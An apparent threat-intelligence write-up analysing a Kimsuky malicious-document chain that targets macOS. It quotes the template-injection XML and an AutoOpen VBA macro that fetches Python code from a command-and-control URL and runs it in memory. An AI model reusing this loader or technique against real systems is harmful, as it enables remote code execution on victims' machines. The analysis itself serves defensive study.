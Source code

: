 # apt-get install kimsuky
## Table of Contents
* [Malware analysis](#Malware-analysis)
  + [Python implant](#MacOSX)
  + [Powershell implant](#Windows)
* [Threat Intelligence](#Intel)
* [Cyber kill chain](#Cyber-kill-chain)
* [Indicators Of Compromise (IOC)](#IOC)
* [Yara Rules](#Yara)
* [References MITRE ATT&CK Matrix](#Ref-MITRE-ATTACK)
* [Links](#Links)
  + [Original Tweet](#tweet)
  + [Link Anyrun](#Links-Anyrun)

<h2>Malware analysis <a name="Malware-analysis"></a></h2>
<h3>Python implant<a name="MacOSX"></a></h3>
<h6>The initial vector is a maldoc which used a template injection for download and execute the next stage.</h6>

```xml
<Relationship Id="rId1" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/attachedTemplate" Target="http://crphone.mireene.com/plugin/editor/Templates/normal.php?name=web" TargetMode="External"/>
</Relationships>
```
<h6>This executes a second maldoc with a macro. The first block of the VBA code is the declaration for use the functions of the office version on Mac. <br/>Note : Mac OS X 10.8 comes with Python 2.7 pre-installed by Apple and now Python 3 on the lastest releases.</h6>

```python
#If Mac Then
 #If Win64 Then
  Private Declare PtrSafe Function popen Lib "libc.dylib" (ByVal command As String, ByVal mode As String) As Long
 #Else
  Private Declare Function popen Lib "libc.dylib" (ByVal command As String, ByVal mode As String) As Long
 #End If
#End If
```

<h6>The last block of code is the function for auto-executing the malicious code. This request and execute python code in memory (fileless).</h6>

```python
Sub AutoOpen()
On Error GoTo eHandler
 Application.ActiveWindow.View.Type = wdPrintView
 ActiveDocument.Unprotect "1qaz2wsx#EDC"
 Dim s As Shape
 For Each s In ActiveDocument.Shapes
  s.Fill.Solid
  s.Delete
 Next
 Selection.WholeStory
 Selection.Font.Hidden = False
 Selection.Collapse
 ActiveDocument.Save
#If Mac Then
 cmd = "import urllib2;"
 cmd = cmd + "exec(urllib2.urlopen(urllib2.Request('http://crphone.mireene.com/plugin/editor/Templates/filedown.php?name=v1')).read())"
 Result = popen("python -c """ + cmd + """", "r")
#End If
```